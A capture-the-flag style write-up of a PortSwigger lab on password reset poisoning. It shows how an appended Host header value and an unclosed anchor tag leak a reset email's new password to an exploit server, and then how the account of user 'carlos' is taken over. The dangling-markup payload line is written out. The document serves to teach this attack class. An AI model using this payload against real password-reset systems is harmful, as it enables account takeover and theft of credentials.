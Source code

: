 # Password reset poisoning via dangling markup

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/host-header/exploiting/password-reset-poisoning/lab-host-header-password-reset-poisoning-via-dangling-markup), you'll learn: Password reset poisoning via dangling markup! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★★★★★★☆☆☆☆

## Background

This lab is vulnerable to password reset poisoning via [dangling markup](https://portswigger.net/web-security/cross-site-scripting/dangling-markup). To solve the lab, log in to Carlos's account.

You can log in to your own account using the following credentials: `wiener:peter`. Any emails sent to this account can be read via the email client on the exploit server.

## Exploitation

**Login page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Host-Header-Attacks/HTTP-Host-Header-7/images/Pasted%20image%2020221228041009.png)

In here, we can see that there is a `Forgot password?` link.

**Let's try to reset user `wiener` password:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Host-Header-Attacks/HTTP-Host-Header-7/images/Pasted%20image%2020221228041054.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Host-Header-Attacks/HTTP-Host-Header-7/images/Pasted%20image%2020221228041103.png)

**Email client:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Host-Header-Attacks/HTTP-Host-Header-7/images/Pasted%20image%2020221228041148.png)

When we reset user's password, it'll send an email to that account.

In that email, **it'll include a new password** and a login link.

Also, **the email will be scanned by the MacCarthy Email Security service.**

**Let's take a look at the email page:**
```html
    <section class='maincontainer is-page'>
        <div class=container>
            <h4>Your email address is wiener@exploit-0a6300c0039c728fc01880350103009d.exploit-server.net</h4>
            <h6>Displaying all emails @exploit-0a6300c0039c728fc01880350103009d.exploit-server.net and all subdomains</h6>
            <table>
                <tr><th>Sent</th><th>From</th><th>Subject</th><th>Body</th><th></th></tr>
                <tr><td>2022-12-28 09:10:56 +0000</td><td style='word-break: break-word'>no-reply@0af400d6039b72eac060812d000b00df.web-security-academy.net</td><td style='overflow-wrap: break-word; max-width: 150px'>Account recovery</td><td><div style='word-break: break-all' class=dirty-body data-dirty='<p>Hello!</p><p>Please <a href=&apos;https://0af400d6039b72eac060812d000b00df.web-security-academy.net/login&apos;>click here</a> to login with your new password: tkpWbBoWlm</p><p>Thanks,<br/>Support team</p><i>This email has been scanned by the MacCarthy Email Security service</i>'></div></td><td><a target=_blank href='?raw=0'>View raw</a></td></tr>
            </table>
        </div>
    </section>
</div>
<script src='resources/js/domPurify-2.0.15.js'></script>
<script>
    window.addEventListener('DOMContentLoaded', () => {
        for (let el of document.getElementsByClassName('dirty-body')) {
            el.innerHTML = DOMPurify.sanitize(el.getAttribute('data-dirty'));
        }
    });
</script>
```

As you can see, it has a JavaScript library called DOMPurify, which **sanitizes HTML and prevents XSS attacks.**

**In the email client, we can also view the raw content of an email:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Host-Header-Attacks/HTTP-Host-Header-7/images/Pasted%20image%2020221228041910.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Host-Header-Attacks/HTTP-Host-Header-7/images/Pasted%20image%2020221228041916.png)

In here, we can see that the HTML codes doesn't sanitized.

**Armed with above information, we can start to modify the `Host` HTTP header in `/forgot-password`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Host-Header-Attacks/HTTP-Host-Header-7/images/Pasted%20image%2020221228042140.png)

**Let's change it to a random host:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Host-Header-Attacks/HTTP-Host-Header-7/images/Pasted%20image%2020221228042212.png)

Hmm... HTTP status `504 Gateway Timeout`.

**Then what if I inject duplicate Host headers?**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Host-Header-Attacks/HTTP-Host-Header-7/images/Pasted%20image%2020221228042341.png)

`Duplicate header names are not allowed`.

**After some trial and errors, I found that we can append anything to the normal `Host` header:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Host-Header-Attacks/HTTP-Host-Header-7/images/Pasted%20image%2020221228042555.png)

**Email client:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Host-Header-Attacks/HTTP-Host-Header-7/images/Pasted%20image%2020221228042626.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Host-Header-Attacks/HTTP-Host-Header-7/images/Pasted%20image%2020221228042638.png)

**Hmm... Looks like our modified `Host` header successfully appended to the `<a>` tag!**

Now, **we can injection our XSS(Cross-Site Scripting) payload to the `<a>` tag!**

```html
:'<a href="//exploit-0a6300c0039c728fc01880350103009d.exploit-server.net/?
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Host-Header-Attacks/HTTP-Host-Header-7/images/Pasted%20image%2020221228043506.png)

**Email client:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Host-Header-Attacks/HTTP-Host-Header-7/images/Pasted%20image%2020221228043516.png)

As you can see, the rest of the body is gone, which is good!

**Let's view the raw content:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Host-Header-Attacks/HTTP-Host-Header-7/images/Pasted%20image%2020221228043553.png)

**Our XSS payload successfully injected to the `<a>` tag, and the MacCarthy Email Security service scanned the email content, which will fetch the email body's content to our exploit server!**

**Check exploit server's access log:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Host-Header-Attacks/HTTP-Host-Header-7/images/Pasted%20image%2020221228043727.png)

The password is included in the log file!

**Now, we can obtain `carlos` new password via changing the `username` parameter in the POST `/forgot-password`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Host-Header-Attacks/HTTP-Host-Header-7/images/Pasted%20image%2020221228043819.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Host-Header-Attacks/HTTP-Host-Header-7/images/Pasted%20image%2020221228043836.png)

Boom! We got it!

Let's login as user `carlos`!

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Host-Header-Attacks/HTTP-Host-Header-7/images/Pasted%20image%2020221228043859.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Host-Header-Attacks/HTTP-Host-Header-7/images/Pasted%20image%2020221228043922.png)

We're user `carlos`!

# What we've learned:

1. Password reset poisoning via dangling markup